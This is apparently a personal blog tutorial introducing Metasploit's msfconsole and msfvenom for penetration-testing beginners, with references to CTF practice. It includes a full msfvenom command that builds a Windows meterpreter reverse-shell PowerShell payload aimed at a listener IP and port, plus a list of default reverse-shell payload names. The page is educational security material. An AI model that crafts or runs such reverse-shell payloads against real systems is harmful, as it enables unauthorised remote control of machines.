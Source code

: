 ```yaml
---
layout: page
title: The Metasploit Framework
subtitle: Msfconsole and Msfvenom
image: /assets/fe.ico
description: Brief overview of Metasploit, and its tools msfconsole and msfvenom
permalink: /tipsandtricks/metasploit/
---
```


# Introduction
So what is Metasploit - it's a framework used to find and exploit vulnerabilities on a network, which makes it a great tool for pen testing. That is a very brief (and reductive) summary, you can find more about them on their website <a href="https://www.metasploit.com/" target="_blank" rel="noopener noreferrer">here</a>. The two ways you'll likely use this framework is through `msfconsole` and `msfvenom`, both of which can be accessed from the terminal.
<br><br>
The first of those, `msfconsole`, is used to find and run known exploits, as well as handle the payloads that are generated from `msfvenom`. And, well, `msfvenom` is what was just described - it is used to craft payloads for specific types of operating systems that  can then be used.
<br><br><br>

# Msfconsole
This is often used in conjuction with searching exploit-db or more easily using the `searchsploit` tool. Both of these tools will return a list of any known vulnerabilities associated with a service, OS and/or its version. For instance, an old CTF I did called something like "Tom Ghost" I think had an old Apache Tomcat version. From there, I used `searchsploit` to identify the exploit and then `msfconsole` to actually run it. Another time at work I identified a known vulnerability with a Cisco switch running an outdated service using an auxiliary scanner (...with permission, I should probably mention that). Even though I could not exploit it with Metasploit directly and had to do it manually, it was still able to identify there was a vulnerability there. I hope this gives you an idea of what it can be used for.
<br><br>
For the commands within msfconsole I would reference their notes directly using `help` within the console. The fundamental commands you will use will be `search` to locate exploits, auxiliary scanners and more, `use #` for the exploit, configure it with `options` and `set x z`, before ultimately using `exploit` to run the script.
<br><br>
If you're looking to really dive into this the best way is to actually go and do it - get on HTB or TryHackMe and find a CTF that uses the Metasploit framework. It makes infinitely more sense doing it yourself, and reading about it will not get you very far. Besides, I'm a stranger on the internet and for all you know I'm lying to you.
<br><br>
If you want to see how this tool is used in a CTF I did a write-up on a while back, I will link that [here](/thm/2022/04/18/TomGhost.html).
<br><br><br>

# Msfvenom
As previously mentioned, msfvenom can be used to craft targeted payloads for a given system. These payloads are very customizable - you choose the OS, the file type (example .exe, .ps1, etc), and much more.
<br><br>
That command for a Windows machine as a powershell script might look something like `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.11.38 LPORT=4444 -f ps1 -o reverse_test.ps1`. So long as you can get these payloads onto the target machine and can execute them, you should recieve that reverse shell within msfconsole using their `multi/handler` exploit. Set the payload type to whatever you used in the msfvenom command and the listener should light right up when executed on the other side.
<br><br>
To look at all the flags that can be used with this tool use the typical `msfvenom --help` command for the full list.
<br><br><br>

# Default Reverse Shell List
To make the beginning easy for you, below is a list of some default (auto selected) reverse shell payloads that can be crafted with `msfvenom` and recieved with `msfconsole`. Full disclosure on the following list - I did not put this together, I got it from another site probably a year back and I can't remember which one it was, but I _think_ it was <a href="https://docs.rapid7.com/metasploit/working-with-payloads/" target="_blank" rel="noopener noreferrer">this one</a>. Trying to give credit where it's due. Anyway, this is a good place to start, but for the ENTIRE list of payloads (it's a lot) you can use `msfvenom -l payloads` and then sift through them yourself manually or grep for keywords. Here's that list:<br>
```
windows/meterpreter/reverse_tcp
java/meterpreter/reverse_tcp
php/meterpreter/reverse_tcp
php/meterpreter_reverse_tcp
ruby/shell_reverse_tcp
cmd/unix/interact
cmd/unix/reverse
cmd/unix/reverse_perl
cmd/unix/reverse_netcat_gaping
windows/meterpreter/reverse_nonx_tcp
windows/meterpreter/reverse_ord_tcp
windows/shell/reverse_tcp
generic/shell_reverse_tcp
```
<br>

# Final Thoughts
Open source tools and frameworks like Metasploit and nmap are critical to learn and become proficient in. Paid for tools have their benefits, no doubt about that, but gaining experience with these free tools really expands your capabilities when pentesting. I'm actually working on a write-up right now for work since I recently got permission to go after some of the network devices we have there. Using nmap and msfconsole I have been able to compromise 4 completely distinct devices using just those two tools, it just takes some experience and knowing how to search for information and test your theories. I'm hoping to get permission to post that up here (once all the vulnerabilities have been patched) since it was a great learning experience and I'd like to share a real world example instead of another CTF. Point being, get started on one of those sites I mentioned in the beginning of this page and you'll enjoy the challenge, I promise.
<br><br>
Cheers.
<br>
